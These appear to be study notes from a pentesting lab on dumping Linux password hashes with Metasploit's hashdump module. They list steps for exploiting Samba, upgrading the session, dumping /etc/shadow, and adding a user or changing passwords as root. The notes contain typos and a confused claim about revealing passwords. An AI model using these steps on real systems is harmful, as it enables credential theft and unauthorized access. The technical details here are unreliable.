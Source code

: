 ### Hashdump post-explitation module
* Dump hashes of Linux users
* Where are Linux password hashes are stored:
  * /etc/shadow file
  * It can only be accessed by the root user or a user with root privileges
 
* Hshdump module can be used to dump hashes from /etc/shadow file and also
* to unshadow the hashes with "John the Ripper"

* PRACTICAL
* Repeat steps till db_nmap
* `use exploit/linux/samba/is_knon_pipename`
* `run` --> Command shell
* `sessions -u [ID]` --> Meterpreter session
* ***
* `use post/linux/gather/hashdump`
* `set session [ID]`
* `run` --> this will unshadow the files which can be accessed:
* `loot`
* `cat [file path listed above]` --> List of users and passwords
* But this will not reveal the passwords, so we have to do a bit more processing.
* **Add a new user**
  * `useradd -m [newName] -s /bin/bash`
  * If we have root privilegese, we can change the password of any user:
  * `passwd [username]`
  * And then enter the new password in the next prompt.
 
* Now again when we run gather/hashdump module, we should see the unshadowed passwords.
